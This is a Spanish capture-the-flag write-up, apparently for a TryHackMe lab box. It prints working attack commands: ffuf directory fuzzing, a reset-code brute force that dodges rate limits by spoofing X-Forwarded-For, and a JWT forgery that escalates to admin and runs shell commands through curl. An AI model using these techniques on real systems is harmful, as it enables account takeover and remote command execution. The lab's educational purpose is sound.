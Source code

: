 # Conectividad

![image](https://github.com/user-attachments/assets/92b3491d-540e-454a-bdad-79c80066db47)

# Enumeración

Parece que nos estamos enfrentando a una máquina Linux ttl=64

Con una escáner de purtos básicos encontramos solo el puerto 22 abierto, si luego hacemos con el parametro -p-:

```
sudo nmap -sCV -T4 -p- --min-rate 4000 10.10.179.183
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-30 07:52 GMT
Nmap scan report for 10.10.179.183
Host is up (0.00029s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
MAC Address: 02:7F:13:6C:17:99 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.58 seconds
```

![image](https://github.com/user-attachments/assets/45d04405-1de6-4810-b409-1114d5389c8d)

Parece ser que nos encontramos con un login a ver si podemos enumerar y encontrar algun vector para saltear o enumerar

- Primero de todo he pensado en enumerar correos electronicos a base de "forgot your password" pero no es factible
- Por otra parte enumerar direcotrios, si nos fijamos en el código fuente encontramos que si enumeramos tal deberemos empezar por _hmr con lo cuál con ffuf vamos a hacerlo

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.179.183:1337/hmr_FUZZ
```

- css
- js
- logs
- images

Vamos a ir enumerando a ver si encontramos algo interesante

![image](https://github.com/user-attachments/assets/b74048bd-aa98-453a-bf0b-83435fcb5c94)

![image](https://github.com/user-attachments/assets/40bac6ae-1cce-41f6-8a34-b4c94b01d636)

Parece ser que en los logs encontramos info intersenate como un usuario = tester:Mismatch

tester@hammer.thm 

Mismatch

![image](https://github.com/user-attachments/assets/c6538d2a-29ac-4328-ba76-cb846367e466)

Vamos a ver si nos conectamos a la web, porque por ssh ya os digo que no va otra cosa que apuntar /restricted-area

# Explotación

Parece ser que vamos a tener que bypassear el reseteo de password vamos a ello

![image](https://github.com/user-attachments/assets/a1cc77f4-527d-4107-8863-151df06b83ad)

Podríamos intentar bypassear a base de fuerza bruta pero nos va a bloquear cada 5 intentos con lo cuál no es razonable

https://book.hacktricks.wiki/pentesting-web/rate-limit-bypass.html

Esto se hizo haciendo uso del encabezado X-Forwarded-For en la solicitud.

Ahora tenemos que prepararnos para realizar el ataque de fuerza bruta. Sabemos que el código estará entre 0000 y 9999, por lo que necesitamos crear un archivo con todos esos valores para introducirlos en ffuf. Usé bash para hacerlo;

```
printf "%04d\n" {0..9999} > count-9999.txt
```

También tendremos que obtener el PHPSESSID, pero lo conseguiremos justo antes del ataque. En otros Write Ups también falsifican la IP pero no se si eso será necesario (lo tenemos que hacer)

```
for X in {0..255}; do for Y in {0..255}; do echo "192.168.$X.$Y"; done; done > fake_ip.txt
```

No necesitamos tantas Ips vamos a rebajarlas

```
head -n 1000 fake_ip.txt > fake_ip_cut.txt
```

Ataque:

```
ffuf -w count-9999.txt:W1 -w fake_ip_cut.txt:W2 -u "http://<target_IP>:1337/reset_password.php" -X "POST" -d "recovery_code=W1&s=80" -b "PHPSESSID=<SESSIONID>" -H "X-Forwarded-For: W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -mode pitchfork -fw 1 -rate 100 -o output.txt
```

![image](https://github.com/user-attachments/assets/fd29a0ca-1cb5-423f-90aa-ea875ee8d389)

Después de encontrar el código simplemente nos metemos y cambiamos la pass

![image](https://github.com/user-attachments/assets/8a352cd3-3a6a-45e5-9cbc-64e14969c55b)

Estamos dentro, pero si estamos un poco de rato 10 segundos nos echa, con lo cuál vamos a ver que podemos ahcer

Parece que tenemos acceso a lcomando ls

![image](https://github.com/user-attachments/assets/3d5870b2-5cf1-452f-840a-5116215ab843)

Sabemos que esos directorios nos podemos meter y podemos ir enumerando el que mas me llama la atención creo y a todo el mundo es el .key

![image](https://github.com/user-attachments/assets/14e2f44f-583b-4c50-8351-e4de081cc1bc)

![image](https://github.com/user-attachments/assets/13c09770-8299-4f14-98f9-5844cc32aee1)

Si lo copiamos como Curl sacamos una nueva header que es la de Autorization

```
curl 'http://10.10.179.183:1337/execute_command.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM4MjI2NzAyLCJleHAiOjE3MzgyMzAzMDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.K_qG8POsXKe7ETEhEHQqRS1_dt3hAlJVcDBCh2BFyQY' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://10.10.179.183:1337' -H 'Connection: keep-alive' -H 'Referer: http://10.10.179.183:1337/dashboard.php' -H 'Cookie: PHPSESSID=litc887cilo0aed8e3t0g8rbge; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM4MjI2NzAyLCJleHAiOjE3MzgyMzAzMDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.K_qG8POsXKe7ETEhEHQqRS1_dt3hAlJVcDBCh2BFyQY; persistentSession=no' -H 'Priority: u=0' --data-raw '{"command":"ls"}'
```

Esto lo estudiamos anteriormente que son los jwtokens

https://jwt.io

![image](https://github.com/user-attachments/assets/0fc4f4d6-883b-4c2b-b894-5a150afb86cf)

# Escalada Privilegios

Una vez tenemos el token lo vamos a manipular para escalar privilegios y tener acceso a todos los comandos o funciones que necesitemos

Deberemos cambiar porsupuesto la key a la que va referida que es el directorio anterior que la hemos decsargado, utilizarla como codificador dicha key y cambiar el rol a admin

![image](https://github.com/user-attachments/assets/5c52edb7-c8a0-4490-a332-5708b8a7f94e)

Una vez tengamos todo cambiaremos el jwtoken del curl anterior y lo sustituiremos, también deberemos sustituir el comando para leer la flag o hacer alguna función específica

Así me ha quedado a mí:

```
curl 'http://10.10.179.183:1337/execute_command.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM4MjI2NzAyLCJleHAiOjE3MzgyMzAzMDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.eB9Seg7yWy-Ec2RhNZSI52W4nvX_3K8e8peKwocbPqs' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://10.10.179.183:1337' -H 'Connection: keep-alive' -H 'Referer: http://10.10.179.183:1337/dashboard.php' -H 'Cookie: PHPSESSID=litc887cilo0aed8e3t0g8rbge; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM4MjI2NzAyLCJleHAiOjE3MzgyMzAzMDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.K_qG8POsXKe7ETEhEHQqRS1_dt3hAlJVcDBCh2BFyQY; persistentSession=no' -H 'Priority: u=0' --data-raw '{"command":"cat /home/ubuntu/flag.txt"}'
{"output":"THM{RUNANYCOMMAND1337}\n"}
```

GG!! He aprendido mucho con esta CTf ya que yo no tenía tantos conocimientos de web.
